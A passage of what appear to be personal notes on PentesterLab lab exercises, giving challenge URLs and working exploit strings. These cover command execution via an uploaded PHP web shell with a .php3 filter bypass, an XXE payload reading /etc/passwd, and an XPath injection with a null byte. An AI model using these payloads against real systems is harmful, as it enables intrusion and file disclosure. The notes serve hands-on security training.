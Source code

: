 url:
http://ptl-f04cf96b-a06904be.libcurl.st/

exploit:
`http://ptl-f04cf96b-a06904be.libcurl.st/upload/a.php?cmd=/usr/local/bin/score%20e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

notes:

### 02
chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
http://ptl-f1f71ac5-a6db0113.libcurl.st/

exploit:
`http://ptl-f1f71ac5-a6db0113.libcurl.st/upload/a.php3?cmd=/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

notes:
- .php is filtered, .php3 works



## XML attacks

### 01
chl:
- read /pentesterlab.key
url:
http://ptl-0d62b3e1-dec4a74d.libcurl.st/?xml=<test>hacker</test>

exploit:
- `http://ptl-0d62b3e1-dec4a74d.libcurl.st/?xml=<!DOCTYPE test [ <!ENTITY x SYSTEM "file:///etc/passwd">]><test>%26x;</test>`

notes:
- `<!DOCTYPE test [ <!ENTITY x SYSTEM "file:///etc/passwd">]>` and `&x;` which references content of /etc/passwd can be printed in a xml tag

### 02
chl:
url:
http://ptl-daa08d37-1adc53b7.libcurl.st/?name=hacker&password=pentesterlab

exploit:
`a' or 1-1]/parent::*/child::node()%00`
`http://ptl-daa08d37-1adc53b7.libcurl.st/?name=admin' or 1-1]/parent::*/child::node()%00&password=pentesterlab`

notes:
- Xpath can be queried as sql and also vulnerable to sql injections: `' and '1'=1`, `' or '1'='1`
- null byte can comment the rest of expresions

